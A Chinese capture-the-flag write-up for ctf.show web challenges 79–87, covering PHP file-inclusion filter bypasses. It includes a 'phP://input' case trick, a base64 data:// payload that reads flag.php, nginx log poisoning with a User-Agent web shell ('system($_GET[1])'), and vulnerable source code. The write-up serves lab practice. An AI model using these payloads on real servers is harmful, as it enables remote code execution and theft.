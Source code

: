 将 php 替换为 ???, 不过这个默认是不忽略大小写的

使用 `phP://input` 绕过

![20220804115833](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804115833.png)

另外可以使用 data 伪协议 + base64 绕过

`data://` 和 `php://input` 都可以用来执行 PHP 代码

`http://316a1b13-abdf-4430-8d75-b8e0c3a8b9fc.challenge.ctf.show/?file=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnZmxhZy5waHAnKTs/Pg==`

## web80

```php
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
```

用上一题的 `phP://input` 绕过

![20220804122843](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804122843.png)

nginx 日志包含, 远程文件包含也能用

nginx 日志路径 `/var/log/nginx/access.log`, 更改 User-Agent

## web81

```php
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
```

包含日志

```
User-Agent: <?php system($_GET[1]);?>
```

![20220804123402](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804123402.png)

## web82-86

**竞争环境需要晚上11点30分至次日7时30分之间做，其他时间不开放竞争条件**

先放着

## web87

```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```
